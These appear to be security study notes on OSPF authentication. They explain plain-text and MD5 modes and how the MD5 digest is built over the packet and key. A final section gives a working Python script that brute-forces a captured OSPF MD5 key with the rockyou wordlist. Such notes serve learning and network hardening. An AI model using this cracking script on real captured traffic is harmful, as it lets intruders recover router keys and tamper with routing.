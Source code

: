 
All routing protocols can be protected by using authentication and OSPF is no exception. 
There are three options for authentication:
- No authentication
- Plain text authentication 
a plaintext password is added in the clear to each OSPF packet.
- MD5 authentication

**Note :** OSPF Authentication only tells that the packet is authentic, nothing is encrypted in the packet content

| Method            | How it works                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| ----------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| No authentication |                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| Plain text Auth   | A password is added in the clear of each OSPF packet, if password does not match, packet is silently ignored                                                                                                                                                                                                                                                                                                                                           |
| MD5 Auth          | An MD5 hash is calculated over a combination of the OSPF packet contents and the password. The hash output is then added to the OSPF packet before transmission. When a packet arrives, the receiving router computes an MD5 hash of the packet contents plus its locally stored password. If the calculated hash matches the one attached to the incoming packet then the check passes and the packet is processed; otherwise it is silently dropped. |


# MD5 Authentication

1. The 16 byte MD5 key is appended to the OSPF packet
2. Trailing pad and length fields are added.
3. The MD5 authentication algorithm is run over the
    concatenation of the OSPF packet, secret key, pad
    and length fields, producing a 16 byte message
    digest
4. The MD5 digest is written over the OSPF key (i.e.,
    appended to the original OSPF packet). The digest is
    not counted in the OSPF packet's length field, but
    is included in the packet's IP length field. Any
    trailing pad or length fields beyond the digest are
    not counted or transmitted.
# Bruteforce

- https://github.com/mauricelambert/OSPF_bruteforce

### With a custom python script

![](images/Pasted%20image%2020240530151745.png)
During MD5 authentication, the process generates md5(OSPF Header + OSFP Hello Packet + 16 Bytes Key).

This hash is appended to the OSPF Header + OSPF Hello Packet.

So, by knowing the OSPF Header, the OSPF Hello Packet and the hash (Auth Crypt Data), we can bruteforce the key

`if md5(Header+Hello+KEY) == AuthCryptData; then the KEY is found`

```python
1. from hashlib import md5
2. from binascii import unhexlify
4. # OSPF header + Hello Packet data
5. data = unhexlify(b"0201003003030303000000000000000200000a103c7ec8defffffffc000a1201000000280c0000020c00000102020202")
6. # Authentication code at the end of the OSPF packet
7. expected = unhexlify(b"ca39bac632801c8857650e8a28a35515")
9. with open("rockyou.txt", "rb") as f:
10.     for line in f:
11.         # Key must be 16 bytes long exactly
12.         key = line.strip()[:16]
13.         if len(key) < 16:
14.             key = key + b"\x00" * (16 - len(key))
15.         # Calculate md5(data + key) and check against expected value
16.         res = md5(data + key).digest()
17.         if res == expected:
18.             print("Found password:", line.strip().decode())
19.             break
```

# Sources

- http://networkingbodges.blogspot.com/2013/10/offline-attack-on-md5-keys-in-captured.html
- https://github.com/theclam/dechap